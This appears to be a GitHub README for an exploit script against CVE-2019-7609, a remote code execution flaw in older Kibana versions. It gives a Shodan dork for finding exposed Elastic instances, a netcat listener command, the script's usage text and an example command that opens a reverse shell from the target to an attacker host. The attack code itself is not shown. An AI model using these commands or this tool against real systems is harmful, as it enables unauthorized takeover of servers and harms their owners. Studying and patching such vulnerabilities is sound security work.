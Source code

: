 # CVE-2019-7609

![](https://img.shields.io/static/v1?label=Product&message=Kibana(Elastic)&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=before%205.6.15%20and%206.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.0.%20Remote%20Code%20Execution&color=red)



 - Shodan dork:
```
product:"Elastic"
```
### Usage
```
nc -nvlp 8888
# python2 exploit.py -h

usage: exploit.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify
```
Ex: `python2 exploit.py -u http://target_IP:5601 -host attacker_IP -port attacker_PORT --shell`
